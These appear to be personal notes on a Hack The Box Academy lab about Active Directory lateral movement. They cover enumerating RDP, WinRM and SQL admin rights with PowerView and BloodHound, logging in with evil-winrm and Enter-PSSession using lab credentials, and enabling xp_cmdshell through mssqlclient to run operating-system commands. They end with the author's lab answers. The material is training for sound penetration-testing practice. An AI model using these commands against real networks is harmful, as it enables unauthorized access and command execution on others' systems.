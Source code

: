 # 🦑 Privileged Access

## Privileged Access

### Remote Desktop

Typically, if we have control of a local admin user on a given machine, we will be able to access it via RDP. Sometimes, we will obtain a foothold with a user that does not have local admin rights anywhere, but does have the rights to RDP into one or more machines.

Using PowerView, we could use the [Get-NetLocalGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-NetLocalGroupMember/) function to begin enumerating members of the `Remote Desktop Users` group on the host

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
<SNIP>
```

all Domain Users (meaning `all` users in the domain) can RDP to this host.

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Once we control a user, we can check what remote access rights they have either directly or inherited via group membership under `Execution Rights` on the `Node Info` tab.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>or <code>Analysis</code> tab and run the pre-built queries <code>Find Workstations where Domain Users can RDP</code> or <code>Find Servers where Domain Users can RDP</code>.</p></figcaption></figure>

### WinRM

We can again use the PowerView function `Get-NetLocalGroupMember` to the `Remote Management Users` group.

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Adding the Cypher Query as a Custom Query in BloodHound**

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

**Establishing WinRM Session from Windows**

We can use the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell from a Windows host.

```powershell
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

and on a linux host we can use `evil-winrm`

Install `evil-winrm ->`

```shell-session
ElFelixi0@htb[/htb]$ gem install evil-winrm
```

And to conect to the host with a set of valid credentials ->

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend
```

### SQL Server Admin

A way that you may find SQL server credentials other then via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying is using the tool [Snaffler](https://github.com/SnaffCon/Snaffler) to find web.config or other types of configuration files that contain SQL server connection strings

Here is a query for bloodhound to find `SQL Admin Rights` in the `Node Info` tab for a given user

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet). Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain
```

We could then authenticate against the remote SQL server host and run custom queries or operating system commands.

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

We can also authenticate from our Linux attack host using [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)

```shell-session
ElFelixi0@htb[/htb]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

Then we can look at the commands we can launch on the SQL server like `enable_xp_cmdshell` to enable the [xp\_cmdshell stored procedure](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allows for one to execute operating system commands via the database if the account in question has the proper access rights.

```shell-session
SQL> enable_xp_cmdshell
```

Now we can run commands in the format `xp_cmdshell <command>`

```shell-session
xp_cmdshell whoami /priv
```

_**What other user in the domain has CanPSRemote rights to a host?**_

So i start by launching sharphound on my windows machine, then downloading it to my attackbox via a evil-winrm session, then i launch bloodhound and upload all the data ->

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

_I enter this raw query ->_

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>BDAVIS</p></figcaption></figure>

_**What host can this user access via WinRM? (just the computer name)**_

```
ACADEMY-EA-DC01
```

_**Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.**_

_**We find the SQL admin rights ->**_

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

via a evil-winrm session i upload mssqlclient.exe to the RDP session and launch the attack

<figure><img src="../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
